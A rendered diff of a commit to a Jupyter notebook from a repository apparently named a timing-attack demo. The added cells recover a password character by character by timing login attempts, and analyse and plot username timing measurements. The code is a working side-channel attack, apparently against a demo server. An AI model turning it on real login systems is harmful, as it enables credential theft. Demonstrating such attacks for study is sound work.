

Before and after one commit to lexuv2/Timing-attack-demo, a Jupyter notebook: attack_server.ipynb, the cells around one changed output, grey strips where cells are left out. Shown at 90% size. Drawn from its saved outputs; the diff is of its cells as text; blank space fills up the shorter version.

```diff
--- a/attack_server.ipynb
+++ b/attack_server.ipynb
@@ -65,0 +74,14 @@ plot_data(times_bad)
+# %%
+if known_username != None:
+    alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ'
+    known_pass = ""
+    while True:
+        times = {}
+        for char in tqdm(alphabet):
+            times[char] = test_for_combination(known_username, known_pass + char)
+
+
+        average_times = {x: np.average(times[x]) for x in times}
+        print(average_times)
+        max_char = max(times, key=lambda x: np.average(times[x]))
+        known_pass += max_char
@@ -65,0 +131,29 @@ plot_data(times_bad)
+# %%
+outliers_reject_rate = 10
+
+username_times = {}
+rejected_outliers = {}
+for username, times in username_times_raw.items():
+    #username_times[username] = np.average(reject_outliers(times,outliers_reject_rate))
+    username_times[username] = np.average(times)
+    rejected_outliers[username] = np.average(reject_outliers(times,outliers_reject_rate))
+
+full_average = np.average(list(username_times.values()))
+
+plot_data_with_correct_usernames(username_times, [full_average]*len(username_times))
+
+reject_outliers_average = np.average(list(rejected_outliers.values()))
+plot_data_with_correct_usernames(rejected_outliers, [reject_outliers_average]*len(rejected_outliers))
+
+
+reject_outliers_moving_average = moving_average(list(rejected_outliers.values()),10)
+plot_data_with_correct_usernames(rejected_outliers, reject_outliers_moving_average)
+
+
+#plot one attempt
+plt.plot(list(username_times_raw.values())[100])
+#reject outliers
+rejected = reject_outliers(list(username_times_raw.values())[0],outliers_reject_rate)
+plt.plot(rejected)
+plt.show()
+# %% [output]
@@ -65,0 +162 @@ plot_data(times_bad)
+[figure, added]
```
Also changed, not shown: parts of 8 cells of this notebook, 17 other files.
